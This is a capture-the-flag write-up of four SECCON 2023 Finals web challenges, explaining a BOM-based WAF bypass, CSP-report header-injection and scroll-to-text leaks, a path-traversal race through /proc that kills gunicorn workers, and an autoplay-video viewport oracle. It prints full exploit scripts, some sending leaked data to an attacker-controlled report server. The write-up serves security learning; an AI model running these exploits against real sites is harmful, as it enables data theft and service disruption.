


# Introduction

Recently, I participated in [SECCON CTF 2023 Finals](https://ctftime.org/event/2159/),
as the team "HK Guesser"! We placed 5th with 2206 points in the international division.

HK Guesser is the variant team name of [Super Guesser](https://guesser.team/).
For SECCON 2023, we consisted of:

- [diff](https://me.pcw.kr/) (Changwan Park)
- [okas832](https://okas832.github.io/about/) (Minyeop Choi)
- [Pencake](https://jinseo.kim/index.en) (Jinseo Kim) -- It's me!
- [hk](https://github.com/hkraw) (Harsh Khuha)

(...although hk couldn't participate in the CTF due to some circumstances 😢)

I solved the following 4 web challenges during the CTF:

- babywaf (8 solves, 165 points)
- cgi-2023 (5 solves, 240 points)
- Plain Blog (10 solves, 129 points)
- DOMLeakify (1 solves, 500 points)

The following is the writeups for them.

# Writeups

## babywaf

> Do you want a flag? 🚩🚩🚩

TL;DR: Given `proxy` (sort of WAF) doesn't recognize UTF-8 BOM character for JSON parsing, while Express does.

It consists of two containers: `backend` and `proxy`. The `proxy` was exposed to the internet.

<details>
<summary>Excerpts of the challenge source codes:</summary>

`proxy`:

```js
app.register(require("@fastify/http-proxy"), {
  upstream: "http://backend:3000",
  preValidation: async (req, reply) => {
    // WAF???
    try {
      const body =
        typeof req.body === "object" ? req.body : JSON.parse(req.body);
      if ("givemeflag" in body) {
        reply.send("🚩");
      }
    } catch {}
  },
  replyOptions: {
    rewriteRequestHeaders: (_req, headers) => {
      headers["content-type"] = "application/json";
      return headers;
    },
  },
});
```

`backend`:

```js
app.use(express.json());

app.post("/", async (req, res) => {
  if ("givemeflag" in req.body) {
    res.send(FLAG);
  } else {
    res.status(400).send("🤔");
  }
});
```
</details>

In short:

- `proxy` proxies requests to `backend`
- You can get the flag by sending a JSON request to `backend` with the key "givemeflag"
- ...but `proxy` prevents you from doing so; it blocks a JSON request with the key "givemeflag"

Also there was some interesting behaviors in the code:

- `proxy` rewrites the Content-Type header to "application/json"
- So, you can send "text/plain" requests to (not others;
  [Fastify won't support them](https://fastify.dev/docs/v2.15.x/Documentation/ContentTypeParser/#content-type-parser)).
- No, this doesn't solve the challenge itself, because `proxy` parses the body to JSON if it's not an object,
  that is, the request type was "text/plain" (or JSON Array/String/Number, but let's skip that cases).

So what can we do here?

I found the builtin JSON body parser on Fastify; it was [`secure-json-parse`](https://github.com/fastify/secure-json-parse).
It contained the following code:

```js
// BOM checker
if (text && text.charCodeAt(0) === 0xFEFF) {
  text = text.slice(1)
}
```

[UTF-8 BOM](https://en.wikipedia.org/wiki/Byte_order_mark) is a tricky character. It can be used to specify
the encoding of the content, but in many cases, you can't sure if it would be even parsed successfully or not.

One example:

```js
> JSON.parse('\ufeff{"givemeflag":true}')
Uncaught SyntaxError: Unexpected token  in JSON at position 0
```

So straight `JSON.parse()` doesn't care about the BOM character.

The above BOM checking/correcting code is from the builtin JSON body parser. This is not applied to
the parser of `proxy`: When it receives the "text/plain" request, it simply passes it to `JSON.parse()`.
It throws an error, and thereby the request gets allowed!

If the JSON body parser of Express, `express.json()`, takes care of the UTF-8 BOM character, sending
a JSON request with a UTF-8 BOM character and "text/plain" Content-Type will give us the flag.

```py
import requests

r = requests.post("http://198.13.36.134:3000/",
                data='\ufeff'.encode('utf-8') + b'{"givemeflag":true}',
                headers={'Content-Type': "text/plain"})

print("Result:", r.text)

# Result: SECCON{**MAY**_in_rfc8259_8.1}
```

And that seems to be the case :)

Flag: `SECCON{**MAY**_in_rfc8259_8.1}`

FYI: RFC 8259 8.1 specifies:

> Implementations MUST NOT add a byte order mark (U+FEFF) to the
> beginning of a networked-transmitted JSON text.  In the interests of
> interoperability, implementations that parse JSON texts **MAY** ignore
> the presence of a byte order mark rather than treating it as an
> error.


## cgi-2023

> CGI is one of the lost technologies.

TL;DR: Attacker-controlled `Content-Security-Policy-Report-Only` header + Lazy-loading iframe + Scroll to Text Fragment

It's a simple CGI program written in Go, but with very strict CSP.

<details>
<summary>The challenge source codes</summary>

`ctf.conf` (Apache httpd configuration file):
```
LoadModule cgid_module modules/mod_cgid.so

ServerName main
Listen 3000

ScriptAliasMatch / /usr/local/apache2/cgi-bin/index.cgi
AddHandler cgi-script .cgi
CGIDScriptTimeout 1

Header always set Content-Security-Policy "default-src 'none';"
```

`main.go`:
```go
func main() {
	http.HandleFunc("/", func(w http.ResponseWriter, r *http.Request) {
		if q := r.URL.Query().Get("q"); q != "" && !strings.Contains(strings.ToLower(q), "status") {
			fmt.Print(q)
		}

		flag, err := r.Cookie("FLAG")
		if err != nil {
			fmt.Fprint(w, "Hello gophers👋")
		} else {
			fmt.Fprint(w, flag.Value)
		}
	})

	cgi.Serve(nil)
}
```

</details>

In short:

- It's a simple CGI program which shows the flag to the bot.
- It prints the query value, which makes header/content injection possible.
- However Apache httpd sets the simple yet strict CSP: `default-src 'none';`.

Because of the CSP, the things we can do are very limited. Nevertheless, since we can inject headers, we can think of some ideas.

First, we can inject the `Content-Length` header to truncate the content, i.e. the flag.
For example, if you inject the header:

```
Content-Length: 7
```

, the user (in this case, bot) will see:

```
SECCON{
```

, which is the first seven characters of the flag. This will make some attacks easier.

Also, we can inject the `Content-Security-Policy-Report-Only` header, which can be used as an oracle.
For example, if you inject the header:

```
Content-Security-Policy-Report-Only: default-src 'none'; report-uri http://attacker-server
```

, loading most external resources will be reported to the attacker's server.

This technique allows us to [utilize lazy-loading content as an oracle](https://book.hacktricks.xyz/pentesting-web/xs-search#image-lazy-loading).
Well, the browser will send the CSP violation report instead of loading the content, but it works anyway!

Also, since we can truncate the flag, we can use the well-known XS-Leak technique, 
[Scroll to Text Fragment](https://xsleaks.dev/docs/attacks/experiments/scroll-to-text-fragment/),
in order to obtain 1-bit information about the flag.

Well, since the [Scroll to Text](https://developer.mozilla.org/en-US/docs/Web/Text_fragments#usage_notes:~:text=Text%20fragments%20are%20invoked%20only%20on%20full%20(non%2Dsame%2Dpage)%2C%20user%2Dinitiated%20navigations.)
behavior is invoked only on user initated navigations, we cannot do this multiple times per single bot visit, but I tackled this problem by calling bot multiple times...

The following script runs a single binary search step.
You need to modify the value of `m` and `M` for every single run.

<details>
<summary>Exploit Script</summary>

```py
import requests
import secrets
import time

def len2path(l, fragment):
    return f"http://web:3000/?q=Content-Security-Policy-Report-Only:default-src%20%27none%27%3B%20report-uri%20http://[attacker server]/{fragment}%0acontent-type:%20text/html%20asdf%0acontent-length:{157+l}%0a%0a%3Ciframe%20srcdoc=%22hi%22%20width=%22200%22%20height=%226000%22%3E%3C/iframe%3E%3Cbr%3Ehi%3Ciframe%20loading=lazy%20src=/a%3E%3C/iframe%3E"


charset = "abcdefghijklmnopqrstuvwxyz_}"

current = "SECCON{"
m = 0
M = 28

if m + 1 == M:
    print("Add", charset[m], "to the current")
    print("m = 0, M = 28")
    exit(0)

mid = (m + M) // 2

effective = charset[m:mid]

token = secrets.token_urlsafe(6)
print("Token:", token)
print(f"Found    : m = {m}, M = {mid}")
print(f"Not Found: m = {mid}, M = {M}")
print("Current set:", charset[m:M])
url = len2path(len(current) + 1, token) + "#:~:" + '&'.join('text=' + current + char for char in effective)
#print(url)

while True:
    resp = requests.post("http://[bot server]:1337/api/report", json={'url':url}).text
    if "Too many" in resp:
        print("Retrying...")
        time.sleep(5)
    else:
        break
```

</details>

Yup, I ran this script a few dozens of times during the CTF, and it took 30 minutes (since the bot is rate-limited to 2 visits/min). Now I think it would have been better to automate this, but I didn't at that time because I was... lazy and exhausted...

Anyway, this gives you the flag!

Flag: `SECCON{leaky_sri}`

So maybe the intended solution was utilizing [SRI](https://developer.mozilla.org/en-US/docs/Web/Security/Subresource_Integrity),
rather than doing this grinding...

## Plain Blog

> No password for you!

TL;DR: Race condition between two file reads.

<details>
<summary>Excerpts of the challenge source codes:</summary>

`main.py`
```py
@app.route('/', methods=['GET', 'POST'])
def index():
    page = get_params(request).get('page', 'index')

    path = os.path.join(PAGE_DIR, page) + '.txt'
    if os.path.isabs(path) or not within_directory(path, PAGE_DIR):
        return 'Invalid path'

    path = os.path.normpath(path)
    text = read_file(path)
    text = re.sub(r'SECCON\{.*?\}', '[[FLAG]]', text)

    if contains_word(path, PASSWORD):
        return 'Do not leak my password!'

    return Response(text, mimetype='text/plain')

@app.route('/premium', methods=['GET', 'POST'])
def premium():
    password = get_params(request).get('password')
    if password != PASSWORD:
        return 'Invalid password'

    page = get_params(request).get('page', 'index')
    path = os.path.abspath(os.path.join(PAGE_DIR, page) + '.txt')

    if contains_word(path, 'SECCON'):
        return 'Do not leak flag!'

    path = os.path.realpath(path)
    content = read_file(path)
    return render_template_string(read_file('premium.html'), path=path, content=content)
```

`util.py`
```py
def resolve_dots(path):
    parts = path.split('/')
    results = []
    for part in parts:
        if part == '.':
            continue
        elif part == '..' and len(results) > 0 and results[-1] != '..':
            results.pop()
            continue
        results.append(part)
    return '/'.join(results)

def within_directory(path, directory):
    path = resolve_dots(path)
    return path.startswith(directory + '/')

def read_file(path):
    with open(os.path.abspath(path), 'r') as f:
        return f.read()

def contains_word(path, word):
    return os.path.exists(path) and word in read_file(path)
```

</details>

In short:

- It reads the file from the user-given path
- It has two endpoints:
  - The `/` endpoint, which censors flag content and block password content
  - The `/premium` endpoint, which requires password and block flag content

So, in this challenge, it seems that we should (1) get the password first at the `/` endpoint
(2) then get the flag at the `/premium` endpoint.

Exploiting path traversal looks easy; `a//..//../password` bypasses the logic of `within_directory()`.
But the problem is, `contains_word()`.

```py
def contains_word(path, word):
    return os.path.exists(path) and word in read_file(path)
```

`contains_word()` checks if the file exists and contains the word (the password or flag).

Let's see the exact logic of the `/` endpoint:

- It checks if the given path is inside the page directory (bypassable)
- It reads the file from the given path, saves to `text`
- It censors the flag from the `text`
- It reads the file from the given path *again*, and check if it contains the password.
  - If it contains the password, block the request.
  - Else, it returns `text` to the user.

Since it reads the file twice, there is room for a race condition!
Specifically, if you can remove the password file between two file reads, you can bypass the `contain_word()`.
But, how to remove the password file?

Procfs, [`/proc`](https://docs.kernel.org/filesystems/proc.html), provides various informations about processes.
One of them is `cwd`, the symlink to the current working directory of that process.
And obviously, when a process dies, that process is removed from the `/proc`.

Note that The challenge instance runs using [gunicorn](https://gunicorn.org/) with 4 workers.
If you can kill a worker process, you can remove `/proc/[PID]/cwd/password.txt`.

You can send only a request line and keep the socket open for 30 seconds to trigger a timeout and kill a worker process.

So, by using all of these pieces, you can obtain the password from the `/` endpoint.

Obtaining the flag from the `/premium` endpoint is not so different. However, this endpoint checks the file before reading the content, so you have to predict the next PID for the new worker process and exploit the race condition there.

<details>
<summary>Exploit Scripts</summary>

`killer.py`:
```py
import socket
import time

while True:
    print("Opening...")
    with socket.socket(socket.AF_INET, socket.SOCK_STREAM) as s:
        s.connect(('plain-blog.int.seccon.games', 3000))
        s.send(b'GET / HTTP/1.1\r\n')
        time.sleep(32)
        print("Closing...")
```

`phase1.py`:
```py
import os
import requests
from tqdm import trange

trial = 0
pids = []

while True:
    trial += 1
    print("[*] Trial", trial)
    for i in trange(2, 1024):
        r = requests.get(f'http://plain-blog.int.seccon.games:3000/?page=asdf/..//..//..//proc/{i}/cwd/password')
        if "Do not leak my password!" in r.text:
            break
    pid = i
    print("[*] Pid", pid)
    ret = os.system('go run phase1.go -pid ' + str(pid))
    if ret == 0:
        break
```

`phase1.go`:
```go
package main

import (
	"flag"
	"fmt"
	"io"
	"net/http"
	"os"
	"strings"
	"sync"
	"sync/atomic"
	"time"
)

var closed = false
var count = int64(0)

const (
	urlTemplate       = "http://plain-blog.int.seccon.games:3000/?page=asdf/..//..//..//proc/%d/cwd/password"
	concurrencyLevel  = 256
	notLeakMessage    = "Do not leak my password!"
	internalServerErr = "500 Internal Server Error"
)

func worker(pid int, wg *sync.WaitGroup, exitChan chan struct{}) {
	defer wg.Done()

	for {
		select {
		case <-exitChan:
			return
		default:
			resp, err := http.Get(fmt.Sprintf(urlTemplate, pid))
			if err != nil {
				fmt.Fprintf(os.Stderr, "Request error: %v\n", err)
				return
			}

			body, err := io.ReadAll(resp.Body)
			resp.Body.Close()
			if err != nil {
				fmt.Fprintf(os.Stderr, "Error reading response: %v\n", err)
				return
			}

			text := string(body)
			if !strings.Contains(text, notLeakMessage) && !strings.Contains(text, internalServerErr) {
				fmt.Println("Found:")
				fmt.Println(text)
				os.Exit(0)
				if !closed {
					closed = true
					close(exitChan)
				}
				return
			}

			if !strings.Contains(text, notLeakMessage) {
				fmt.Print("F")
				if !closed {
					closed = true
					close(exitChan)
				}
				return
			}
		}
		res := atomic.AddInt64(&count, 1)
		if res%10000 == 0 {
			fmt.Println(res)
		}
	}
}

func main() {
	pid := flag.Int("pid", 1, "process id to check")
	flag.Parse()

	var wg sync.WaitGroup
	exitChan := make(chan struct{})

	for i := 0; i < concurrencyLevel; i++ {
		wg.Add(1)
		go worker(*pid, &wg, exitChan)
	}

	wg.Wait()
	os.Exit(1)
}
```

`phase2.py`:
```py
import os
import requests
from tqdm import trange

cnt = 0
pids = []

for i in trange(2, 1024):
        r = requests.get(f'http://plain-blog.int.seccon.games:3000/?page=asdf/..//..//..//proc/{i}/cwd/password')
        if "Do not leak my password!" in r.text:
            print("[*] Found pid", i)
            cnt += 1
        if cnt == 4:
            break
pid = i + 1


while True:
    print("[*] Pid", pid)
    ret = os.system('go run slurk.go -pid ' + str(pid))
    if ret == 0:
        break
    pid += 1
```

`phase2.go`:
```go
package main

import (
	"flag"
	"fmt"
	"io"
	"net/http"
	"os"
	"strings"
	"sync"
	"sync/atomic"
	"time"
)

var closed = false
var count = int64(0)

const (
	urlTemplate       = "http://plain-blog.int.seccon.games:3000/premium?&password=[found password]&page=asdf/..//..//..//proc/%d/cwd/flag"
	concurrencyLevel  = 256
	notLeakMessage    = "Do not leak flag!"
	internalServerErr = "500 Internal Server Error"
)

func worker(pid int, wg *sync.WaitGroup, exitChan chan struct{}) {
	defer wg.Done()

	for {
		select {
		case <-exitChan:
			return
		default:
			resp, err := http.Get(fmt.Sprintf(urlTemplate, pid))
			if err != nil {
				fmt.Fprintf(os.Stderr, "Request error: %v\n", err)
				return
			}

			body, err := io.ReadAll(resp.Body)
			resp.Body.Close()
			if err != nil {
				fmt.Fprintf(os.Stderr, "Error reading response: %v\n", err)
				return
			}

			text := string(body)
			if !strings.Contains(text, notLeakMessage) && !strings.Contains(text, internalServerErr) {
				fmt.Println("Found:")
				fmt.Println(text)
				os.Exit(0)
				if !closed {
					closed = true
					close(exitChan)
				}
				return
			}

			if !strings.Contains(text, internalServerErr) {
				fmt.Print("F")
				if !closed {
					closed = true
					close(exitChan)
				}
				return
			}
		}
		res := atomic.AddInt64(&count, 1)
		if res%10000 == 0 {
			fmt.Println(res)
		}
	}
}

func main() {
	pid := flag.Int("pid", 0, "process id to check")
	flag.Parse()

	var wg sync.WaitGroup
	exitChan := make(chan struct{})

	for i := 0; i < concurrencyLevel; i++ {
		wg.Add(1)
		go worker(*pid, &wg, exitChan)
	}

	wg.Wait()
	os.Exit(1)
}
```

</details>

Flag: `SECCON{play_with_path_mechanics}`

## DOMLeakify

> [NO LEAK, NO LIFE.](https://en.wikipedia.org/wiki/No_Game_No_Life)

TL;DR: Utilizing an autoplaying video as a viewport oracle.

<details>
<summary>Excerpts of the challenge source codes:</summary>

`app.py`:
```py
@app.get("/")
def leakable():
    flag = request.cookies.get("FLAG", "SECCON{dummy}")[:18]
    return render_template("index.html", flag=flag)
```

`templates/index.html`:
```html
<!doctype html>
<html>
<head>
  <title>DOMLeakify</title>
  <script src="https://cdn.jsdelivr.net/npm/dompurify@3.0.6/dist/purify.min.js"></script>
</head>
<body>
  <h1>DOMLeakify</h1>
  <div id="content"></div>
  <ul>
    
      
      <li id="{{ prefix }}" class="{{ prefix }}">{{ prefix }}</li>
    
  </ul>
  <script>
    (() => {
      const html = decodeURIComponent(location.hash.slice(1));
      if (html.length > 512) return;
      document.getElementById("content").innerHTML = DOMPurify.sanitize(html, {
        FORBID_TAGS: ["style"],   // No CSS Injection
        FORBID_ATTR: ["loading"], // No lazy loading
      });
    })();
  </script>
</body>
</html>
```

</details>

In short:

- It shows the flag (to the bot) like: `S`, `SE`, `SEC`, `SECC`, `SECCO`, `SECCON`, `SECCON{`, ...
  - These are also stored in `id` and `class`.
- It sanitizes attacker-controlled HTML with DOMPurify and embeds it on the same page.
  - Additionally, `<style>` tag and `loading` attribute are forbidden.

If this didn't block the `<style>` tag, we could abuse the attribute selector to leak the flag.
Also, If this didn't block the `loading` attribute, we could utilize multiple XS-Leak techniques.
Well, but both of them are forbidden here, and that makes this challenge very difficult.

After pondering this challenge for a few hours, I started to read the HTML spec docs, and found this paragraph:

> (...) Optionally, when the element stops intersecting the viewport,
> if the can `autoplay` flag is still true and the autoplay attribute is still specified, run the following substeps:
> 1. Run the internal pause steps and set the can autoplay flag to true.
> 2. Queue a media element task given the element to fire an event named `pause` at the element.

In summary, an autoplaying video may stop (up to the implementation) when it moves out of the viewport.

At there, I guessed that pausing a video would stop the download, which would be noticeable on the video server.
So I downloaded a video, copy-and-pasted the video streaming server code which supports
[HTTP range requests](https://developer.mozilla.org/en-US/docs/Web/HTTP/Range_requests),
and tested whether moving the video out of the viewport makes the difference on downloading of a video.

<details>
<summary>Video streaming server code</summary>

`test.js`:
```js
app.get('/bbb206', (req, res) => {
    fs.stat('contents/video/bbb.mp4', (err, data) => {
        if (err) {
            res.writeHead(404)
            res.end();
            throw err
        } else {
            if (req.headers['range']) {
                let range = req.headers['range'];
                var array = range.replace('bytes=', "").split("-");
                var start = parseInt(array[0], 10);
                var end = array[1] ? parseInt(array[1], 10) : data.size - 1;
                var chunksize = 1024 * 1000;
                console.log((new Date()).toISOString(), req.ip, "Current bytes:", start)
                res.writeHead(206, {
                    'Accept-Ranges': 'bytes',
                    "Content-Range": "bytes " + start + "-" + end + "/" + data.size,
                    'Content-Length': chunksize,
                    'Content-Type': 'video/mp4',
                    'Cache-Control': 'no-cache'
                });
                let readable = fs.createReadStream('contents/video/bbb.mp4', { start, end });
                readable.on('open', () => {
                    readable.pipe(res);
                })
                readable.on('error', (err) => {
                    res.end(err);
                    console.log(err);
                })
            }
        }
    })
})
```

`test.html`
```html
<!DOCTYPE html>
<html>
    <head></head>
    <body>
        <video width="500" playsinline autoplay muted>
            <source src="/bbb206" type="video/mp4" />
        </video>
        <br>
        <canvas width="200" height="6000"></canvas>
    </body>
</html>
```

</details>

<details>
<summary>Test result</summary>


*When the autoplaying video remains in the viewport, it loads the next video content after 30 seconds.*


*When the autoplaying video moves out of the viewport, it stops loading the next video content.*

</details>

It worked! More specifically, if the autoplaying video is:
- inside the viewport, the next requests will be sent after 30 seconds
- outside the viewport, it pauses and the next requests won't be sent

So, basically, we can use an autoplaying video as a viewport oracle.

In this problem, We have the flag contents in `id` attributes. Hence, by changing
the URL fragment, we can focus (that is, move the viewport) to the element with flag.

This leaks the 1-bit information about the flag, and you can do binary search from there.

<details>
<summary>Exploit Scripts</summary>

`step.py` is the script which runs the single binary search step, and `app.js` is
the web server code which supports the exploit.

`step.py`
```py
import requests
import secrets
import time

def len2path(l, fragment):
    return f"http://web:3000/?q=Content-Security-Policy-Report-Only:default-src%20%27none%27%3B%20report-uri%20http://10.2.104.4:3000/{fragment}%0acontent-type:%20text/html%20asdf%0acontent-length:{157+l}%0a%0a%3Ciframe%20srcdoc=%22hi%22%20width=%22200%22%20height=%226000%22%3E%3C/iframe%3E%3Cbr%3Ehi%3Ciframe%20loading=lazy%20src=/a%3E%3C/iframe%3E"

with open('contents/init.html') as f:
    template = f.read()

#charset = "abcdefghijklmnopqrstuvwxyz_"
charset = "abcdefghijklmnopqrstuvwxyz_ABC}E"

current = "SECCON{attr_cssi"
m = 0
M = 32

if m + 1 == M:
    print("Add", charset[m])
    exit(0)

mid = (m + M) // 2

effective = charset[m:mid]

token = secrets.token_urlsafe(6)
print("Token:", token)
print("Match 256:", m, mid)
print("Elsewhere:", mid, M)
print("Current set:", charset[m:M])

with open(f'contents/tokens/{token}.html', 'w') as f:
    f.write("""<script>""")
    f.write("""w = window.open('http://web:3000/#' + encodeURIComponent('<video playsinline autoplay muted controls width="500"><source src="http://10.2.104.4:3000/bbb206?token=[TOKEN]" type="video/mp4" /></video><br><canvas width="200" height="60000"></canvas><br>'));""".replace('[TOKEN]', token))
    for i, char in enumerate(effective):
        f.write("""setTimeout(() => {w.location = 'http://web:3000/#[ID]'}, [TIME]);""".replace('[ID]', current + char).replace('[TIME]', str(2000 + 100 * i)))
    f.write("""</script>""")


url = "http://10.2.104.4:3000/tokens/" + token + '.html'

while True:
    resp = requests.post("http://domleakify.int.seccon.games:1337/api/report", json={'url':url}).text
    if "Too many" in resp:
        print("Retrying...")
        time.sleep(5)
    else:
        break
```

`app.js`
```js
const express = require('express')
const app = express()
const fs = require('fs')

app.use(express.static('contents'))

app.get('/bbb206', (req, res) => {
    fs.stat('contents/video/bbb.mp4', (err, data) => {
        if (err) {
            res.writeHead(404)
            res.end();
            throw err
        } else {
            if (req.headers['range']) {
                let range = req.headers['range'];
                var array = range.replace('bytes=', "").split("-");
                var start = parseInt(array[0], 10);
                var end = array[1] ? parseInt(array[1], 10) : data.size - 1;
                var chunksize = 1024 * 1000;
                console.log((new Date()).toISOString(), req.ip, req.query.token, "Current bytes:", start)
                res.writeHead(206, {
                    'Accept-Ranges': 'bytes',
                    "Content-Range": "bytes " + start + "-" + end + "/" + data.size,
                    'Content-Length': chunksize,
                    'Content-Type': 'video/mp4',
                    'Cache-Control': 'no-cache'
                });
                let readable = fs.createReadStream('contents/video/bbb.mp4', { start, end });
                readable.on('open', () => {
                    readable.pipe(res);
                })
                readable.on('error', (err) => {
                    res.end(err);
                    console.log(err);
                })
            }
        }
    })
})

app.listen(3000)
```

You should create `contents`, `contents/tokens`, `contents/video` directory.
Also, you should put the long video file in `contents/video/bbb.mp4`.

</details>

This single search step was a little bit unstable; sometimes the 1-bit result was wrong.
I'm still not sure why. On my laptop, a video sometimes stopped the playing
with memory or ffmpeg(???) error, but I didn't fully confirm taht this is the reason.

Anyway, repeating to run this script for 50 minutes gave us the flag!

Flag: `SECCON{attr_cssi}`

As the flag indicates, the intended solution utilizes inline style.

# Acknowledgements

TODO...